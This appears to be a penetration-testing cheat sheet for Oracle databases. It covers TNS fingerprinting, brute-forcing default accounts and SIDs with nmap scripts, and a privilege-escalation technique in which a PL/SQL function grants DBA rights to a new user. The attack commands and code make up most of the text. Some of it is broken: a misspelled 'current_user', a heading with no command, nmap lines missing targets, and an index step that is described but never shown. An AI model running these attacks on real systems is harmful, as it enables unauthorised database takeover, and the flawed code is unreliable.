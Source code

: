 Run oscanner:

```
oscanner -s 192.168.1.200 -P 1521 
```

**Fingerprint Oracle TNS Version**

Install tnscmd10g:

```
apt-get install tnscmd10g
```

Fingerprint oracle tns:

```
tnscmd10g version -h TARGET
nmap --script=oracle-tns-version 
```

**Brute force oracle user accounts**

Identify default Oracle accounts:

```
 nmap --script=oracle-sid-brute 
 nmap --script=oracle-brute 
```

Run nmap scripts against Oracle TNS:

**Oracle Privilege Escalation**

Requirements:

* Oracle needs to be exposed on the network
* A default account is in use like scott

Quick overview of how this works:

1. Create the function
2. Create an index on table SYS.DUAL
3. The index we just created executes our function SCOTT.DBA\_X
4. The function will be executed by SYS user (as that’s the user that owns the table).
5. Create an account with DBA priveleges

In the example below the user SCOTT is used but this should be possible with another default Oracle account.

**Identify default accounts within oracle db using NMAP NSE scripts:**

```
nmap --script=oracle-sid-brute 
nmap --script=oracle-brute 
```

Login using the identified weak account (assuming you find one).

**How to identify the current privilege level for an oracle user:**

```
SQL> select * from session_privs; 

SQL> CREATE OR REPLACE FUNCTION GETDBA(FOO varchar) return varchar deterministic authid 
curren_user is 
pragma autonomous_transaction; 
begin 
execute immediate 'grant dba to user1 identified by pass1';
commit;
return 'FOO';
end;
```
